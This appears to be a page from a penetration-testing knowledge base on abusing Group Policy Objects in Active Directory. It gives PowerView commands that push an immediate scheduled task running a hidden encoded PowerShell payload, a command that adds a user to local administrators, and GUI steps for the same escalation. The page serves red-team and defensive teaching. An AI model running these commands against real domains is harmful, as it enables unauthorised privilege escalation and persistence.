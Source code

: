 # Group Policy Objects \(GPOs\)

## Theory

"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs \(GPOs\) make up Group Policies. GPOs are associated to AD objects \(sites, domains, organizational units \(OUs\)\).

> Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default \(5 minutes for Domain Controllers\). This means that Group Policy enforces configured settings on the targeted computer.
>
> [adsecurity.org](https://adsecurity.org/?p=2716)

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control \(see [this BlackHat conf](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf), page 28\):

* `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO \(specific GUID specified\)
* `GenericAll`, `GenericWrite`, `WriteProperty` to any property \(no GUID specified\)
* `WriteDacl`, `WriteOwner`

## Practice

### Immediate Scheduled Task

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to. This can be achieved with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
New-GPOImmediateTask -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command powershell -CommandArguments '-NoP -NonI -W Hidden -Enc JABXAGMA[...]BOz4=='
```

Another example of exploitation could be to add a user to the local administrators group.

```bash
New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
```

After a successful execution, the scheduled task can be removed with the following command.

```bash
New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
```

### Adding a user to the local admin group

An attacker can also add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

**Step 1**: create the user

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name: <user>`

**Step 2**: add the user to the local admin group

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name : <Administrators> > Members: Add: <user>`

### Force Group Policy update

Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`.

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" caption="" %}

{% embed url="https://adsecurity.org/?p=2716" caption="" %}

{% embed url="https://beta.hackndo.com/gpo-abuse-with-edit-settings/" caption="" %}

